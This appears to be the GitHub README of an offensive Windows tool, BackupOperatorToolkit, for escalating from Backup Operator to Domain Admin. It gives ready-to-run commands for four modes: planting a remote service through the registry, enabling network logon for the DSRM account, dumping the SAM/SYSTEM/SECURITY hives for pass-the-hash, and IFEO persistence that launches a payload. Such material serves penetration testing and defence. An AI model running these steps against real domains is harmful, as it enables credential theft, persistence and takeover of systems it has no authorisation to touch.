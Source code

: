 # BackupOperatorToolkit

## Usage  

The BackupOperatorToolkit (BOT) has 4 different mode that allows you to escalate from Backup Operator to Domain Admin.  
Use "runas.exe /netonly /user:domain.dk\backupoperator powershell.exe" before running the tool.  

### Service Mode  

The SERVICE mode creates a service on the remote host that will be executed when the host is rebooted.  
The service is created by modyfing the remote registry. This is possible by passing the "REG_OPTION_BACKUP_RESTORE" value to RegOpenKeyExA and RegSetValueExA.  
It is not possible to have the service executed immediately as the service control manager database "SERVICES_ACTIVE_DATABASE" is loaded into memory at boot and can only be modified with local administrator privileges, which the Backup Operator does not have.  

```powershell
.\BackupOperatorToolkit.exe SERVICE \\PATH\To\Service.exe \\TARGET.DOMAIN.DK SERVICENAME DISPLAYNAME DESCRIPTION
```  

![service](./pictures/service.png)  
  
### DSRM Mode  

The DSRM mode will set the DsrmAdminLogonBehavior registry key found in "HKLM\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" to either 0, 1, or 2.  
Setting the value to 0 will only allow the DSRM account to be used when in recovery mode.  
Setting the value to 1 will allow the DSRM account to be used when the Directory Services service is stopped and the NTDS is unlocked.  
Setting the value to 2 will allow the DSRM account to be used with network authentication such as WinRM.  
If the DUMP mode has been used and the DSRM account has been cracked offline, set the value to 2 and log into the Domain Controller with the DSRM account which will be local administrator.  

```powershell
.\BackupOperatorToolkit.exe DSRM \\TARGET.DOMAIN.DK 0||1||2
```  

![dsrm](./pictures/dsrm.png)  

### DUMP Mode  

The DUMP mode will dump the SAM, SYSTEM, and SECURITY hives to a local path on the remote host or upload the files to a network share.  
Once the hives have been dumped you could PtH with the Domain Controller hash, crack DSRM and enable network auth, or possibly authenticate with another account found in the dumps. Accounts from other forests may be stored in these files, I'm not sure why but this has been observed on engagements with management forests.
This mode is inspired by the [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) project.  

```powershell
.\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK
```  

![dump](./pictures/dump.png)  
  
### IFEO Mode  

The IFEO (Image File Execution Options) will enable you to run an application when a specifc process is terminated.  
This could grant a shell before the SERVICE mode will in case the target host is heavily utilized and rarely rebooted.  
The executable will be running as a child to the WerFault.exe process.  

```powershell
.\BackupOperatorToolkit.exe IFEO notepad.exe \\Path\To\pwn.exe \\TARGET.DOMAIN.DK
```  

![ifeo](./pictures/ifeo.png)  
![ifeo-msf](./pictures/ifeo-msf.png)  
![ifeo-msf-s](./pictures/ifeo-msf-s.png)  
![ifeo-pwned](./pictures/ifeo-pwned.png)  

